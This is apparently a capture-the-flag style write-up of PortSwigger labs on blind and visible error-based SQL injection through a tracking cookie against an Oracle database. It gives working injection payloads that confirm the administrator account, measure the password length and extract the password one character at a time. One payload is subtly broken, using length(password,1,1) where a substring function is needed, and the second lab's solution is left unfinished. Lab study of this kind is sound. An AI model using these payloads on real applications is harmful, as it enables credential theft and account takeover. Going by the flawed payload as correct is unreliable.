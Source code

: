 # Error-based SQL injection

## Lab's decsription

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

**End goal:** log in as the `administrator` user.

We have hint: `This lab uses an Oracle database.`

Oracle's syntax: [SQL Cheatsheat](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

![](img/2.png)

Here is my cookie: `ZDhTYBxTuioKS1t5`. 

Send this to Repeater. 

Now we gonna see if the username `administrator` exits or not.

`ZDhTYBxTuioKS1t5'||(select case when (1=2) then to_char(1/0) else '' end from users where username='administrator')||'`

Next we gonna see the length of the password. Send the target to Intruder and loop it from 1 to 20.

`ZDhTYBxTuioKS1t5'||(select case when (length(password) > 1) then to_char(1/0) else '' end from users where username='administrator')||'`

![](..//Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/5.png)

![](../Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/7.png)

We can see the length is different, because it does not respond the `Error` message.

After that, we will discover character-by-character for the password.

`ZDhTYBxTuioKS1t5'||(select case when (length(password,1,1) = a) then to_char(1/0) else '' end from users where username='administrator')||'`

![](../Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/4.png)

![](img/1.png)

After an hour, I got this:

`Username: administrator`

`Password:x555lejj395mk0k98nja`

**Source:** [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors#)

---

# Visible error-based SQL injection

## Lab's decsription

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called users, with columns called username and password.

**End goal:** log in as the `administrator` user.

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

Here is my cookie: `b2enCQjhRAqpl6Zl`.


**Source:** [Lab: Visible error-based SQL injection](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based#)
